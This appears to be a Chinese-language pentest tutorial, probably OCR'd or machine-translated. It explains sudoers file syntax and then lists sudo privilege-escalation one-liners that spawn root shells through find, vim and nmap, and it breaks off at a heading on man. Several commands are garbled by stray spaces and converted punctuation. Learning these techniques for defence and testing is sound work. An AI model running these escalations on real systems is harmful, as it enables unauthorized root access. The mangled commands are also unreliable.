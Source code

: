 #### sudoers文件主要有三部分组成：

- sudoers的默认配置（default），主要设置sudo的一些缺省值
- alias（别名），主要有
  Host_Alias|Runas_Alias|User_Alias|Cmnd_Alias。
- 安全策略（规则定义）——**重点**。

语法

root ALL=(ALL) ALL

说明1：root用户可以从  ALL终端作为  ALL（任意）用户执行，并运行  ALL（任意）命令。

第一部分是用户，第二部分是用户可以在其中使用sudo命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。sudo

touhid ALL= /sbin/poweroff

说明2：以上命令，使用户可以从任何终端使用**touhid\****的用户密码**关闭命令电源。

touhid ALL = (root) NOPASSWD: /usr/bin/find

说明3：上面的命令，使用户可以从任何终端运行，以**root**用户身份运行命令find **而无需密码**。

### 利用SUDO用户

要利用sudo用户，您需要找到您必须允许的命令。
sudo -l

上面的命令显示了允许当前用户使用的命令。

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmib8uk9uTj4IP1U0bJnApeoAiasWJkn3iaMOYLAVrSoR5V15Xr3SYv77dKA/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

此处sudo -l，显示用户已允许以root用户身份执行所有此二进制文件而无需密码。

让我们一一查看所有二进制文件（仅在索引中提到）和将**特权**提升给**root**用户。

### **使用查找命令**

`sudo find / etc / passwd -exec / bin / sh \;`

要么

`sudo find / bin -name nano -exec / bin / sh \;`

### **使用**Vim**命令**

`sudo vim -c’！sh’`

### **使用**Nmap**命令**

`sudo nmap-交互式nmap>！shsh-4.1＃`

**注意：\****nmap –interactive**选项在最新的**nmap***\*中不可用。**

没有互动的最新方式

`echo“ os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse`

### **使用**Man**命令**
